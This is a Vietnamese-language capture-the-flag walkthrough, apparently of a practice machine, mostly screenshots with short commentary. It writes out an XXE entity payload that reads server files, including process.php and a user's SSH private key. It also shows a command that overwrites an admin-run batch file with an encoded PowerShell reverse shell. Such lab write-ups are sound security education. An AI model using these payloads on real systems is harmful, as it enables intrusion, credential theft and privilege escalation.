## Task 1




> 2.4.41
## Task 2


Thử một số password thường dùng thì credential này vào được trang dashboard
> admin:password
## Task 3


Dạo trang web 1 vòng thì thấy có Order và Contact nhận input từ phía người dùng nhưng Order khiến tôi chú ý hơn vì có khả năng cao sẽ được đưa vào một query nào đó để lấy dữ liệu lên

> Order
## Task 4


Mở source code lên có một điều làm tôi chú ý, khi unput người dùng được nối vào trong xml template cuối cùng được xử lý. Khả năng XXE rất cao.


> 1.0
## Task 5


> XML External Entity
## Task 6


Phần đầu source code đã cung cấp cho chúng ta thông tin này


> Daniel
## Task 7


Hmm thông tin này có vẻ phải đọc trong process.php rồi nhưng làm sao để đọc nó thì chúng ta chú ý request của order sẽ gửi dưới dạng một xml template nên thử lợi dụng 



Xác định được phần item sẽ được phản hồi kết quả lại nên tiến hành khai báo một xxe nhưng nhớ rằng do file php có các kí tự đặc biệt nên chúng ta cần wapper lại qua base64
```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=process.php">]>
```


Dùng cyberchef dịch thử đoạn code xử lý của process.php và chúng ta thu được đoạn code
```php
<?php
include("db.php");
session_start();
if (!$_SESSION["loggedin"]) {
    header('location: /index.php');
} else {
    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        libxml_disable_entity_loader(false);
        $xmlfile = file_get_contents('php://input');
        $dom = new DOMDocument();
        $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
        $order = simplexml_import_dom($dom);
        $quantity = $order->quantity;
        $item = $order->item;
        $addr = $order->address;
        echo "Your order for $item has been processed";
    }

}
?>
```
Nhưng hiện tại chúng ta chưa có được tên file bên trong để tiến hành đọc. Tuy nhiên, chúng ta biết được rằng có user daniel nên thử xem user này có key ssh không.


Tiến hành lưu lại và login vào target


> job.bat

### User Flag


## Task 8


Chúng ta đọc thử nội dung của file trên


> wevtutil.exe
## Root Flag
Kiểm tra quyền của file này

Vậy là user thường vẫn có thể chỉnh sửa được và để file này chạy thì bất cứ cái gì gọi nó đều phải có quyền admin chính vì thế chúng ta chỉ đơn giản netcat và chèn reverse shell vào thôi
```cmd
echo powershell -e JABFAHIAc..= > c:\Log-Management\job.bat
```
Tìm được root.txt



